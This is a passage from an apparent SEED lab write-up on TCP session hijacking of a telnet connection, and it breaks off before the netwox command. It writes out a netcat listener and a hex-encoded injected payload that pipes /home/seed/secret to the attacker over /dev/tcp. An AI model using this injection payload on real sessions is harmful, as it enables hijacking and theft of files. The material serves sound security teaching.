 ![](./ytb_rst_2.png)

# Task 4

First, assume the user establishes a `telnet` connection from the user to the server. There is a secret file `/home/seed/secret` on the server, if not, just create it.

```
echo "This is a secret file" > /home/seed/secret
```

Then, on the attacker machine, prepare a port (e.g. 9090) to get the data:

```
nc -lv 9090
```

## Netwox

Encode the payload `'\r cat /home/seed/secret > /dev/tcp/10.0.2.15/9090\r'` into a hex string:

```
$ python
Python 2.7.12 (default, Nov 19 2016, 06:48:10) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> '\r cat /home/seed/secret > /dev/tcp/10.0.2.15/9090\r'.encode('HEX')
'0d20636174202f686f6d652f736565642f736563726574203e202f6465762f7463702f31302e302e322e31352f393039300d'
```

Since the last `telnet` packet from the server to the user captured by Wireshark is:

> Transmission Control Protocol, Src Port: 57640, Dst Port: 23, Seq: 1386528330, Ack: 1227064343, Len: 2
>     **Source Port: 57640**
>     Destination Port: 23
>     [Stream index: 0]
>     [TCP Segment Len: 2]
>     **Sequence number: 1386528330**
>     **[Next sequence number: 1386528332]**
>     **Acknowledgment number: 1227064343**
>     Header Length: 32 bytes
>     Flags: 0x018 (PSH, ACK)
>     Window size value: 237
>     [Calculated window size: 30336]
>     [Window size scaling factor: 128]
>     Checksum: 0x5fbc [unverified]
>     [Checksum Status: Unverified]
>     Urgent pointer: 0
>     Options: (12 bytes), No-Operation (NOP), No-Operation (NOP), Timestamps
>     [SEQ/ACK analysis]

Ref to the [documentation] of `netwox` tool 40, run such a command with correct parameters on the attacker machine:
